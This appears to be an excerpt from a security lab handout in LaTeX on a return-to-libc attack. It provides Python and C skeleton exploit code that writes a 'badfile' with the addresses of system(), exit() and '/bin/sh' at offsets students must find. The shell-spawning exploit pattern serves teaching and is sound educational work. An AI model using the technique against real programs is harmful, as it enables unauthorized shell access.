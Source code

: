 \begin{lstlisting}
#!/usr/bin/python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 0
sh_addr = 0x00000000       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 0
system_addr = 0x00000000   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 0
exit_addr = 0x00000000     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
\end{lstlisting}
 
You need to figure out the three addresses and the values for 
\texttt{X}, \texttt{Y}, and \texttt{Z}. 
If your values are incorrect,
your attack might not work. In your report, you need to
describe how you decide the values for {\tt X}, {\tt Y} and {\tt
Z}. Either show us your reasoning or, if you use a trial-and-error approach,
show your trials.


\paragraph{Using C.}
We also provide you with a skeleton of C code, with the essential 
parts left for you to fill out.


\begin{lstlisting}
/* exploit.c */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
  char buf[40];
  FILE *badfile;

  badfile = fopen("./badfile", "w");

  /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
  *(long *) &buf[X] = some address ;   //  "/bin/sh"    (*@\ding{80}@*)
  *(long *) &buf[Y] = some address ;   //  system()     (*@\ding{80}@*)
  *(long *) &buf[Z] = some address ;   //  exit()       (*@\ding{80}@*)

  fwrite(buf, sizeof(buf), 1, badfile);
  fclose(badfile);
}
\end{lstlisting}

